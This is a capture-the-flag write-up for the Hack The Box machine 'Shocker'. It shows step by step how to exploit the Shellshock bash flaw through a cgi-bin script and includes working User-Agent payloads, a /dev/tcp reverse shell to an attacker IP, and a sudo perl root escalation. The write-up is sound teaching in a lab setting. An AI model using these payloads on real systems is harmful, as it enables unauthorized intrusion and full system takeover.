

Shocker is a Linux machine rated Easy on HTB.

# Information Gathering and Vulnerability Identification

## OSINT

Shocker is a likely reference to the [Shell Shock vulnerability](https://en.wikipedia.org/wiki/Shellshock_(software_bug)).

## Port Scan

`nmap -sC -sV -oA initial 10.10.10.56`


We have two ports to probe. (80 and 2222)

Before we dive into them, let's start another nmap scan to cover all ports.

`nmap -p- -oA all 10.10.10.56`


The service identified is based on the typical services associated with each port. It may not be accurate. Compare the SERVICE on port 2222 with our initial scan with version detection.

## HTTP (Port 80)

These are standard starting points for webservers:

* Visit the page in a browser
* Bust for directories and files
* Inspect the DOM and sources using Developer Tools if necessary

### Browsing


This image pretty much confirms that we need to look for a shellshock vulnerability here.

### Testing For Shell Shock

If not for the box name and the image, I might not have thought of testing for this specific vulnerability straightaway. This box is didactic.

#### What is Shell Shock?

[Cloudflare has a fantastic explanation here.](https://blog.cloudflare.com/inside-shellshock/)

TL;DR

* Web servers at times need other programs on the machine to respond to a **request**.
* To facilitate that, web servers need to **share information about the request** with other programs.
* They do that by setting the information they want to share as **environment variables** in the shell. (In this case, the shell is Bash.)
* But some versions of Bash has a flaw that causes it to **treat some variables as commands to be executed**.

This vulnerability allows code to be executed by a remote attacker who is manipulating requests sent to the server.

#### Testing For Shell Shock

The cgi-bin holds server-side scripts, so it's the natural attack vector. Let's see if it exists.



403 Forbidden means that we are not authorized to access, but it does exist.

Now, let's look for scripts that we can use to test for shell shock. While we may not be able to access the directory, we might be able to access files within it.

**Set up a scan with dirbuster.**
* Look for common cgi script filetypes like shell, perl, or php scripts.


**Dirbuster Results**


The file **user.sh** might be what we are looking for.

Opening it up, it seems like a shell script that shows the uptime.

```
Content-Type: text/plain

Just an uptime test script

 00:45:01 up  2:16,  0 users,  load average: 0.00, 0.00, 0.00
 ```
Now, let's use Burp Repeater to test for Shell Shock vulnerability.

Burp Repeater will send a request for user.sh with a modified header value. If the system is vulnerable to Shell Shock, we can get bash to execute code.

Enter this as the User-Agent value.

`() { :; }; echo; /bin/bash -c 'cat /etc/passwd'`


Look at the response on the right-hand side. The passwd file is returned as part of the response.

**The system is vulnerable to Shell Shock.**

Before we move on to getting a shell on the system, let's take a closer look at the modified header value to understand how it works.

`() { :; }; echo; /bin/bash -c 'cat /etc/passwd'`

* `() { :; };` - syntax of an empty bash function

* `echo;` - the subsequent command works without this echo command, but you need it to receive a well-formed HTML response ([with an empty line between the headers and the content](https://www.w3.org/Protocols/rfc2616/rfc2616-sec4.html)). In other words, if you expect text output and you want to see it as part of the HTML response, you need this.

* `/bin/bash -c 'cat /etc/passwd'` - getting a new bash session to print the passwd file

# Attacks and Exploits

## Exploiting Shellshock

First, let's setup a listener for catching our reverse shell.

`nc -nvlp 8888`

Then, send another request for user.sh with the header value modified as:

`() { :;}; /bin/bash -i >& /dev/tcp/10.10.X.X/8888 0>&1`

This will get a bash reverse shell, which is the natural choice here as bash is available. Note that `echo;` is not needed here because we are not interested in the HTML response.

```
root@kali:~# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.56] 58462
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ cd ~
cd ~
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
```
Got the user flag!

<details>
<summary>Expand this if you want to understand the bash reverse shell.</summary>

[Fantastic but more technical explanation here](https://hypothetical.me/post/reverse-shell-in-bash/)

`/bin/bash -i >& /dev/tcp/10.10.X.X/8888 0>&1`

* `/bin/bash` - getting a new bash session

* `-i` - in interactive mode

* `>&` - redirecting both standard output and error

* `/dev/tcp/10.10.X.X/8888` - to TCP socket associated with IP address 10.10.X.X at port 8888

* `0>&1` - redirect standard input to standard output which is now a socket

</details>

## Privilege Escalation

Run `sudo -l` to list user shelly's privilege.

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
  ```
Since we can run Perl as root (without password!), we can escalate our privilege by launching a new shell with Perl. By running perl with root privileges,

`sudo perl -e 'exec "/bin/bash";'`

* `sudo` - execute command as another user; if you do not specify a user (like what we are doing here), it will assume you want to execute the command as root (superuser)

* `perl` - Perl language interpreter; we use it here because we can run it with root privileges.

* `-e` - indicates that the Perl command `exec "/bin/bash";` should be executed

After Perl executes the command to get us a bash shell, let's confirm if we have root privileges.

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash";'          
sudo perl -e 'exec "/bin/bash";'
whoami
root
```

# Ending Thoughts

Although this is an easy straightforward box, I've learned more by exploiting manually using Burp to sent requests and trying to understand every step of the way.

You can also use Metasploit or other available exploits to root this box.

**References**

* https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/
* https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
* https://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref
* https://blog.knapsy.com/blog/2014/10/07/basic-shellshock-exploitation/
* https://github.com/opsxcq/exploit-CVE-2014-6271
* https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/ (A simple demo)
